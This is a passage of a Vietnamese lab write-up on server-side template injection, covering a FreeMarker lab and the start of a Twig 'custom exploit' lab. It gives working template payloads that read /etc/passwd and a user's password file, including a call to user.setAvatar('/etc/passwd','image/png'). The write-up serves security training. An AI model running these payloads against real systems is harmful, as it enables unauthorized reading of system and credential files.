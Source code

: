 Sâu hơn ta có thể lấy Path của file và dùng resolve để chuyển đến đường dẫn ta mong muốn.

Lấy path của file jar.

```
class.getProtectionDomain().getCodeSource().getLocation().toURI().getPath()
```

>![](https://i.imgur.com/Uw9krMd.png)

Chuyển path thành đường dẫn khác với `resolve()`

```
${product.class.getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd')}
```

>![](https://i.imgur.com/5ILFQdV.png)

Dùng readAllBytes() để đọc file này

```!
.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")

```

>![](https://i.imgur.com/Di78BNN.png)

Kết quả đọc file `/home/carlos/my_password.txt`

>![](https://i.imgur.com/esfu8bU.png)


>![](https://i.imgur.com/oTLhrkO.png)


<hr>

### Bài 7: Server-side template injection with a custom exploit

>![](https://i.imgur.com/PIZIOYF.png)

Ở bài này, sau khi đăng nhập ta lại thấy chức năng `Preferred name` như bài lab phía trên.

>![](https://i.imgur.com/Pc2ECLl.png)

Trigger error, ta thấy trang web  sử dụng template `Twig`

>![](https://i.imgur.com/IQ6V0DD.png)

Upload 1 avatar không phải là ảnh, ta thấy có lỗi trả về như sau:

>![](https://i.imgur.com/pikqGGo.png)

Vậy là đối tượng `user` có method `setAvatart()`, thử đổi giá trị preferred name thành method() này, cùng với 2 tham số, ta có thể đọc *Method này nhận 2 tham số là tên file và data type*

```
user.setAvatar('/etc/passwd','image/png')
```

Truy cập tới file avatar, `/avatar?avatar=wiener`, nó trả về 1 file như sau. Vậy xác nhận ta có thể đọc 1 file bất kỳ.
